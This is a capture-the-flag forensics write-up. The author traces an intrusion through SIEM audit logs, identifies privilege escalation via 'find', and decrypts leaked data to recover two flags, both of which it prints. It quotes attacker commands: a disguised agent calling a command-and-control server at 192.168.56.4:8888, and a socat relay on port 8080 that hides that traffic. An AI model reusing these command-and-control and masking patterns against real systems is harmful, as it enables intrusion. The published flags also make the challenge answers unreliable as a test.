

# Santas Snowflake Operations Command (SOC)

Description: After last years breach by the Naughty Elves. Santas security department has formed the
Santas Special Investigative Division or short the SSID. The SSID is tasked with creating the Santa's
Intelligent Event Monitor system (SIEM) capable of monitoring the Santa's Workshop Information
System (SWIS) and the Global Gift Delivery Network (GGDN). Are you able to help the SSID find the
two secret flags?

After creating an account i am presented with the data.


## Part 1

### Instructions FLAG 1

1. Please write down the arguments given to the binary that was responsible for the initial infection of
the system

    In order to find the binary we should find anything out of the ordanary.

    Here we can see a python file being executed:

    

    Filtering on `test.py` we see the download, execution and removal of `test.py`

    

    Here we can see the file being executed.

    

    What did execute the file? Lets trace the parent event `18852`

    `data.audit.pid:18852`

    Here we can see that the find command is executed.

    

    Let's trace this parent as well.

    `data.audit.pid:18851`

    We can see here bash is executed by bash...

    

    Lets go up one further

    `data.audit.pid:10643`

    Here we can see that `splunkd` is the origin of executing bash, than find, than bash and finally python...

    

    Going one up does not show any more data `data.audit.pid:732`, this is the final trace.

    If we filter on `*splunkd* and execve`

    The `execve` system call in Linux is used to execute a program.

    We can see three events. The second shows us the execution of `splunkd` with the arguments, this is the answer to question 1.

    

    ```json
    "execve": {
    "a0": "/var/lib/BrlAPI/splunkd",
    "a1": "-server",
    "a2": "http://192.168.56.4:8888",
    "a3": "-group",
    "a4": "red",
    "a5": "-v"
    },
    ```

    The answer to 1: `-server http://192.168.56.4:8888 -group red -v`

2. What was the name of the binary that was used to achieve the privilege escalation?

    In order tho find this we need to understand how to spot privilege escalation. A normal user runs with an uid of `1000` or higher. Root typically runs with a uid of `0`. In order to know which binary was used to escalate privileges we must look for a change in the `EUID` (Effective User ID) `1000 -> 0`

    - `test.py` was executes with root privileges.

        

    - `find` was executed with root privileges.

        

    - `bash` was executed with user privileges.

        

    This means `find` was used for privilege escalation.

    The answer to 2: `find`

3. What is the name and path of the second stage executable right after it was downloaded?

    Looking further into the events and filtering on the malicious ip and port `*192.168.56.4* and *8888*`

    Shows a vew events.

    

    Here at 12:13:33 `sandcat.go` is downloaded

    At 12:13:35 a file is made executable

    

    The answer to 3: `/var/crash/wazuh.crash/`

4. What ip:port combo did the attacker use to try and obfuscate the second stage command execution?

    Searching for this file `*/var/crash/wazuh.crash*` shows that is is renamed

    

    Looking further into this event

    

    Here we can see that the following commad is run `/var/ossec/bin/wazuh-forwarder -server http://127.0.0.1:8080 -group red-priv -v`

    The answer to 4: `127.0.0.1:8080`

5. What process was responsible for making the ip obfuscation possible?

    A strange observation was made, the ppid of the event is `1`

    

    Around the same time of the wazuh-forwarder, `socat` is started

    

    The answer to 5: `socat.service`

6. Write down the portion of the command line argument that was responsible for obfuscation to the ip port combo of question 4 on the system. Do not write down the target IP and port.

    Searching for `socat and *8080*` shows the final answer

    

    The answer to 6: `TCP-LISTEN:8080,fork`

Combining the answers: `-serverhttp://192.168.56.4:8888-groupred-vfind/var/crash/wazuh.crash/127.0.0.1:8080socat.serviceTCP-LISTEN:8080,fork`

```sh
echo "-serverhttp://192.168.56.4:8888-groupred-vfind/var/crash/wazuh.crash/127.0.0.1:8080socat.serviceTCP-LISTEN:8080,fork" | base64

LXNlcnZlcmh0dHA6Ly8xOTIuMTY4LjU2LjQ6ODg4OC1ncm91cHJlZC12ZmluZC92YXIvY3Jhc2gv
d2F6dWguY3Jhc2gvMTI3LjAuMC4xOjgwODBzb2NhdC5zZXJ2aWNlVENQLUxJU1RFTjo4MDgwLGZv
cmsK
```

This will give the flag:

## Flag 1

`CEMA{LXNlcnZlcmh0dHA6Ly8xOTIuMTY4LjU2LjQ6ODg4OC1ncm91cHJlZC12ZmluZC92YXIvY3Jhc2gvd2F6dWguY3Jhc2gvMTI3LjAuMC4xOjgwODBzb2NhdC5zZXJ2aWNlVENQLUxJU1RFTjo4MDgwLGZvcmsK}`

## Part 2

In order to find the second flag we need to see what programs were executed and for that we can make it visual with the `predecoder.program_name` filter


We can see some wierd programs that need to be inspected further.

- `TmV2ZXIgZ29ubmEgZ2l2ZSB5b3UgdXAKUmlqbmRhZWwKTmV2ZXIgZ29ubmEgbGV0IHlvdSBkb3du`
- `VGhlIGJvYXJkIGlzIHNldCwgdGhlIHBpZWNlcyBhcmUgbW92aW5nLi4u`


When inspecting the event with the string: `TmV2ZXIgZ29ubmEgZ2l2ZSB5b3UgdXAKUmlqbmRhZWwKTmV2ZXIgZ29ubmEgbGV0IHlvdSBkb3du` we see the following interesting information



We can see an `IV` (initialization vector) which is used in encryption as a starting variable, we are looking for encrypted data.

The second string: `VGhlIGJvYXJkIGlzIHNldCwgdGhlIHBpZWNlcyBhcmUgbW92aW5nLi4u` shows leaked data.


We now need a key to decrypt the data.

The key is probably entered around the dates of these events `Dec 4, 2023 @ 12:15:53.358`

Lets filter on dates between `Dec 4, 2023 @ 12:14:00.000` and `Dec 4, 2023 @ 12:16:00.000`

And it is probably a command entered on the terminal so lets filter on that as well.


Viualising this data on `data.audit.file.name` shows a strange binary executed.. `htops` this looks like `htop` but it is something else.


Searching for `htops` gave us 5 hits, thee last one has generated what looked like a key, could it be?


Lets try to decode the data with the following data:

- Key: `683a7f31402af11f`
- IV: `e5f50b23c4627f1a1828efbda7bf2fb0`  
- Data: `bba5d791e4ff1bf7a67e73701d88f2ab18df089cab2bca677f85225387898561fd1fc989ef6206723437790e7f551032906beb5815117f8ff1001e48916fac5e6d53b2dcb7e9c42580cc8add1c71f0550eeca1baa3ac200f961de28da1c82993cf29726610ca832023728430e39b92dbf3d3bfa34bdffb87fd7d23e1dc05c164c562b6a2b6331e381c615788e433af9c42442a7972995bb3e7947adb0b5387b04f07ac7876e4090244dc01ffa2c2b4c6`

[Cyberchef](https://gchq.github.io/CyberChef/#recipe=AES_Decrypt(%7B'option':'UTF8','string':'683a7f31402af11f'%7D,%7B'option':'Hex','string':'e5f50b23c4627f1a1828efbda7bf2fb0'%7D,'CBC','Hex','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)&input=YmJhNWQ3OTFlNGZmMWJmN2E2N2U3MzcwMWQ4OGYyYWIxOGRmMDg5Y2FiMmJjYTY3N2Y4NTIyNTM4Nzg5ODU2MWZkMWZjOTg5ZWY2MjA2NzIzNDM3NzkwZTdmNTUxMDMyOTA2YmViNTgxNTExN2Y4ZmYxMDAxZTQ4OTE2ZmFjNWU2ZDUzYjJkY2I3ZTljNDI1ODBjYzhhZGQxYzcxZjA1NTBlZWNhMWJhYTNhYzIwMGY5NjFkZTI4ZGExYzgyOTkzY2YyOTcyNjYxMGNhODMyMDIzNzI4NDMwZTM5YjkyZGJmM2QzYmZhMzRiZGZmYjg3ZmQ3ZDIzZTFkYzA1YzE2NGM1NjJiNmEyYjYzMzFlMzgxYzYxNTc4OGU0MzNhZjljNDI0NDJhNzk3Mjk5NWJiM2U3OTQ3YWRiMGI1Mzg3YjA0ZjA3YWM3ODc2ZTQwOTAyNDRkYzAxZmZhMmMyYjRjNg)


## Flag 2

`CEMA{T25lIHJpbmcgdG8gcnVsZSB0aGVtIGFsbCwgb25lIHJpbmcgdG8gZmluZCB0aGVtLCBvbmUgcmluZyB0byBicmluZyB0aGVtIGFsbCwgYW5kIGluIHRoZSBkYXJrbmVzcyBiaW5kIHRoZW0gV0lUSCBUSEUgRkxBRy4g}`
